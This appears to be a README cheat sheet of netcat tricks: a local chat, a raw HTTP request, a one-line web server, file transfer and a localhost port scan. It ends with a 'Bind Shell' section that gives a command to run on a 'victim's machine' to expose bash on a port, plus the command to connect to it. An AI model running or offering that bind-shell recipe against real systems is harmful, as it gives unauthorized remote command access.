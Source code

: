 netcat
======

Neat things you can do with netcat (`nc`)!

Create a chat
-------------

Listen on a port (this is the "server"):

```
nc -l 8888
```

Connect a client:

```
nc 127.0.0.1 8888
```

Try typing in either window. You're chatting between the client and server!

Send an HTTP request
--------------------

```
echo -ne "GET / HTTP/1.0\n\n" | nc google.com 80
```

Create an HTTP Server
---------------------

Instead of _sending_ a request, _listen_ for one and send a response:

```
echo -e "HTTP/1.1 200 OK\n\n <h1>$(hostname)<h1>" | nc -l 8888
```

Then head on over to [http://localhost:8888]([http://localhost:8888/)!

Send a file
-----------

Listen on a port to receive file ("server"):

```
nc -l 8888 > sink.txt
```

Client to send the file:

```
nc 127.0.0.1 8888 < source.txt
```

Port scan
---------

Scan all ports between 20-100 to see what's going on:

```
nc -z 127.0.0.1 20-100
```

Bind Shell
----------

This is really bad!

On a victim's machine, run a listener that forwards requests to `bash`:

```
nc -l 8888 -e "/bin/bash"
```

Open a connection:

```
nc <victim's host> 8888
```

Now you've opened a bind shell to the victim's machine.

